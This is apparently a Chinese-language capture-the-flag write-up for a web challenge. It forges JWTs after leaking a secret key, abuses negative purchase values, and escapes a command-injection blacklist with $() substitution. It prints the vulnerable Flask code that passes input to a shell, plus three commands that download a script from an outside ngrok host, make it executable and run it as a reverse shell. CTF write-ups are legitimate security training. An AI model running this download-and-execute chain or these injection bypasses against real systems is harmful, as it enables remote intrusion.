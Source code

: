 ~~這題感覺是叫我們挖礦~~
* 簡單來講有 RAM 就可以做更多事，所以我們要想辦法買RAM

來看看他怎麼買 RAM

```python!
if YourToKeNinShop!=JWTMODE.JWT_Naup() and (RAM>0 or RAM<0):
        
    flash("You are not my MASTER!Bad hacker!")
```

* 這邊是用 jwt 驗證身分的，原本用 [jwt-cracker](https://github.com/lmammino/jwt-cracker) 去爆但內存都不夠了還沒跑出來 (￣ ‘i ￣;)

網站一開始給了個 webshell 但長度只能小於五，還有一堆字都不能用，後來踹到 * 可以選到 `ASECRETKEY.txt` 的檔名，而執行他可以 leak 出 key，我們就可以任意簽 [jwt](https://jwt.io/) 了

![image](https://hackmd.io/_uploads/BJU0K8CbC.png)

設完後不要重新整理，會被洗掉...被搞了五次才回去看了程式

* 至於搞錢了話，把另外兩個設負的先買，就有用不完的錢了!

* 買完後就可以去 /shell 用比較沒限制的 shell 了!

```python!
@app.route("/exe", methods=["GET", "POST"])
def exe():
    if session["RAM"] <3:
        return redirect("/FFAM")
    data = request.json
    user_input = data.get('userInput')
   
    BLACKLIST=[ ';', '>','|', '&', '<', '\n','`', '*', '?','{' , '}', '[', ']','%']
    for i in BLACKLIST:
        if i in user_input:
            return "You are not my MASTER.You don't use this character."
        
    cmd="cat %s.txt"% (user_input)
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    if result.returncode == 0:
        output = str(result.stdout)
        
        return output
    else:
        output = "Command failed with error code:"+str(result.returncode)
        return output
```

* 禁掉了一些危險東西，但還有 $() 能用
* 所以像上題一樣我傳 sh 過去 開 reverseshell 就好了!
* 喔對 這邊要分開給，因為有擋 `&`

```bash!
$(curl https://35c9-123-193-178-235.ngrok-free.app/download -o /tmp/shell.sh)
$(chmod +x /tmp/shell.sh)
$(bash /tmp/shell.sh)
```

![image](https://hackmd.io/_uploads/SygvTUCZA.png)

> FLAG : THJCC{F1nd_F1ag_2ut0m2t1c_mach1n3!!!}
